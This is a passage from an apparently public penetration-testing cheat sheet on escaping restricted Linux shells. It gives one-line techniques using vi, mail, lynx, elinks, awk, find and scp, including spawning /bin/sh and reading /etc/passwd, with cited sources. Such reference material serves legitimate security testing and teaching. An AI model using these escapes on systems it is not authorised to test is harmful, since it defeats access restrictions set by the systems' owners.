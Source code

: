 #### Command execution

```sh
:! /bin/ps
```

### Mail

`$VISUAL` sets the program to invoke
when the visual editor is called.

```sh
set VISUAL=/bin/vi
mail -s "subject" user@mail.com
```
Start the visual editor with `~v` and [escape VIM](#vim).

### Lynx[^lynx-doc]

```sh
lynx /etc/passwd
```

Enter the options with `o`,
change the `Editor` to `/bin/vi`.
Edit the file with `e`
and [escape VIM](#vim)

### Elinks

Set `EDITOR` to `/bin/vi`.
Open a webpage
and edit a textbox.
[Escape VIM](#vim)

### AWK

```sh
awk 'BEGIN {system("/bin/sh")}'
```

### Find

```sh
find / -name 0xffsec -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

### SCP [^scp-pentestmonkey]

Read files with `-F`

```sh
scp -F /etc/passwd validfile remote:
```

Run commands with `-S`.


[^scp-pentestmonkey]: “Breaking out of Rbash Using Scp.” Pentestmonkey | Taking the Monkey Work out of Pentesting, http://pentestmonkey.net/blog/rbash-scp.
[^0-nixcraft]: “$0 - Linux Shell Scripting Tutorial - A Beginner’s Handbook.” NixCraft – Bash Shell Scripting Directory, https://bash.cyberciti.biz/guide/$0.
[^sans-restricted-shells]: Wright, Joshua. “SANS Penetration Testing | Escaping Restricted Linux Shells.” SANS Institute.
[^lynx-doc]: “Lynx Users Guide.” LYNX – The Text Web-Browser, https://lynx.invisible-island.net/lynx_help/Lynx_users_guide.html#LocalSource.
[^tcpdump]: “How to Break out of Restricted Shells with Tcpdump.” Insinuator.Net, https://insinuator.net/2019/07/how-to-break-out-of-restricted-shells-with-tcpdump/.